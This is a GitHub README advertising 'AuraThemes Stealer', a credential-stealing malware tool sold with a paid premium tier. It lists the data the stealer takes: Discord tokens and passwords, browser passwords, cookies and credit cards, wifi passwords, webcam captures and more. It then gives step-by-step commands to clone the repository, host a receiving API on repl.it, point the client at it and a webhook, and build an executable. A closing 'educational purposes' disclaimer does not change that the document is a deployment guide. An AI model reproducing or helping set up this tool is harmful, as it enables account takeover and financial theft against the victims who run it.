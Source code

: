 # <a id="home"></a> AuraThemes - Stealer

## Littleraly One Of The Best Stealer

---

#### [Discord](https://discord.gg/5BJa778F7B) - [Build](#salepute) - [Turorial](#tutorial) 

AuraThemes Stealer: Steal discord tokens and get privileged access!

Our powerful AuraThemes Stealer is a tool designed to help get Discord tokens to access user accounts. With the built-in API, you don't run the risk of your Webhook disappearing. <br>
<br>

the best version of a (stealer), in this case it is AuraThemes, with the best form of an OP version

✅: Premium Features (20€ - Join Discord)

## Features
- Grabs Discord Token
- Discord Password (even when it's changed)
- IP Address (Public)
- Discord New Email (when Changed)
- Discord New Password (when Changed)
- Alert When MFA is Enabled
- Alert When MFA is Disabled
- Mac Address (✅)
- UUID (✅)
- Windows Product Key (✅)
- Local IP (✅)
- Wifi Passwords (✅)
- Bot Builder (✅)
- Alert When Paypal Is Added (✅)
- Credit Card When Added (✅)
- Browsers Passwords & Cookies (✅)
- More PC Infos (✅)
- Webcam & Screenshot (✅)
- Steam (✅)
- Add To Startup (✅)
- AutoFill (✅)
- Browsers Credit Cards (✅)
- Stored Discord Backup Codes (✅)
- BookMarks (✅)
- Browsers History (✅)
- Bypass Discord Token Protection (✅)
- Minecraft Grabber (✅)
- In Dev And More...

## <a id="salepute"></a> Free Version Installation

When Done: 
```bash
git clone https://github.com/k4itrun/AuraTokenGrabber
```
```bash
cd AuraTokenGrabber
```
```bash
npm i -g
```
```bash
Setup Your desktopServer/server.js in repl.it
In the desktopClient/client.js replace https://yourapi.com by your api
```
```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```
```bash
node desktopClient/client.js
```
```bash
build EXE: npm run build
```

---

### <a id="tutorial"></a> TUTORIAL USE Mode of use

Create a new project on repl.it to create the API server. This is where you will receive the data sent by the client. (Just copy the contents of [Server api](https://raw.githubusercontent.com/k4itrun/AuraTokenGrabber/main/desktopServer/server.js) and paste it into your repl.it index file). Once you do that, you will have the receiving API set up.

> Add your webhook URL in

```js
12 | x = { //added new webhook URL
    webhookURL: "URL"
    }
```

> Now, in the client section, go to (client) and change line 10 in client.js file:

```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```

> Replace it with the URL of your previously created API server on repl.it.

With this, everything should be set up correctly, and it should work by running `node client.js`.

### THIS SCRIPT was made for Educational purposes
[Home](#home)

## README Spanish soon...
